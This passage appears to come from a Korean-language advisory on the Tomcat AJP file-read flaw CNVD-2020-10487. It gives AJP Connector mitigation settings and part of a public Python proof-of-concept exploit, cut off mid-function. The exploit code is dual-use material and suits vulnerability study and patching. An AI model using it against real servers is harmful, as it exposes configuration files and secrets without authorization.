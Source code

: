 ```xml
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" address="YOUR_TOMCAT_IP_ADDRESS" secret="YOUR_TOMCAT_AJP_SECRET" />
```

Tomcat 업그레이드가 불가능한 경우에는 아래와 같이 AJP Connector에 "RequiredSecret" 속성을 추가한다.

```xml
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" address="YOUR_TOMCAT_IP_ADDRESS" requiredSecret="YOUR_TOMCAT_AJP_SECRET" />
```


## PoC
[공개된 PoC](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)는 아래와 같다. 이 PoC는 취약점을 이용하여 WEB-INF/web.xml 파일에 접근하여 코드를 확인하는 식으로 작성되었다. 

```python
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
	if s is None:
		return struct.pack(">h", -1)
	l = len(s)
	return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
	size = struct.calcsize(fmt)
	buf = stream.read(size)
	return struct.unpack(fmt, buf)
def unpack_string(stream):
	size, = unpack(stream, ">h")
	if size == -1: # null string
		return None
	res, = unpack(stream, "%ds" % size)
	stream.read(1) # \0
	return res
class NotFoundException(Exception):
	pass
class AjpBodyRequest(object):
	# server == web server, container == servlet
	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
	MAX_REQUEST_LENGTH = 8186
	def __init__(self, data_stream, data_len, data_direction=None):
		self.data_stream = data_stream
		self.data_len = data_len
		self.data_direction = data_direction
	def serialize(self):
		data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)
		if len(data) == 0:
			return struct.pack(">bbH", 0x12, 0x34, 0x00)
		else:
			res = struct.pack(">H", len(data))
			res += data
		if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:
			header = struct.pack(">bbH", 0x12, 0x34, len(res))
		else:
			header = struct.pack(">bbH", 0x41, 0x42, len(res))
		return header + res
	def send_and_receive(self, socket, stream):
		while True:
			data = self.serialize()
```